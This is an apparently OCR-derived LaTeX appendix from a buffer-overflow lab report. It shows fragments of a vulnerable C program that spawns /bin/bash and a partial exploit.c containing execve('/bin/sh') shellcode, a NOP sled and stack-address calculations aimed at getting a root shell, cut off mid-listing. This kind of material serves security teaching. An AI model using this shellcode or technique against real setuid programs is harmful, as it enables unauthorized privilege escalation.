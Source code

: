 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
  system("/bin/bash");

  return 0;
}

void print_current() {
  char buffer[100];

  getcwd (buffer, 50);
  printf("Current Directory: %s\n", buffer);
  return;
}
\end{lstlisting}


\section{Buffer overflow exploits\label{app:bof:exploit1}}
\lstset{
	captionpos=b,
	frame=single,
	language=C,
	breaklines=true,
	caption=Exploit for getting root with zsh,
	label=bof:exploit1
}
\begin{lstlisting}
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=
"\x31\xc0"      /* xorl  %eax,%eax   */
"\x50"          /* pushl %eax        */
"\x68""//sh"    /* pushl $0x68732f2f */
"\x68""/bin"    /* pushl $0x6e69622f */
"\x89\xe3"      /* movl  %esp,%ebx   */
"\x50"          /* pushl %eax        */
"\x53"          /* pushl %ebx        */
"\x89\xe1"      /* movl  %esp,%ecx   */
"\x99"          /* cdql              */
"\xb0\x0b"      /* movb  $0x0b,%al   */
"\xcd\x80"      /* int   $0x80       */
;

void main(int argc, char **argv)
{  
  char buffer[517];
  FILE *badfile;
  long fcP;
  int buffer_size, shell_code_size;
  
  buffer_size = sizeof(buffer);
  shell_code_size = sizeof(shellcode);
  
  /* Initialize buffer with 0x90 (NOP instruction) */
  memset(&buffer, 0x90, 517);
  
  /* You need to fill the buffer with appropriate contents here */
  printf("Size of shellcode: %d\n", sizeof(shellcode));
  
  /* Print stack pointer */
  fcP = &buffer;
  
  /* Make sure is multiple of 4 */ 
  while(fcP % 4 != 0) {
    fcP += 1;
  }
  
  printf ("Using Stack pointer at address: %x\n", fcP);
  printf ("Buffer size: %d, shell code size: %d\n", buffer_size, shell_code_size);
  
  /* Compute how far we can palce shell code, we want it towards the end of buffer */
  long address_to_copy_to = fcP + buffer_size - 1 - shell_code_size;
  printf ("I will start writing to %08x\n", address_to_copy_to);
  

\end{lstlisting}
\end{appendices}
\end{document}
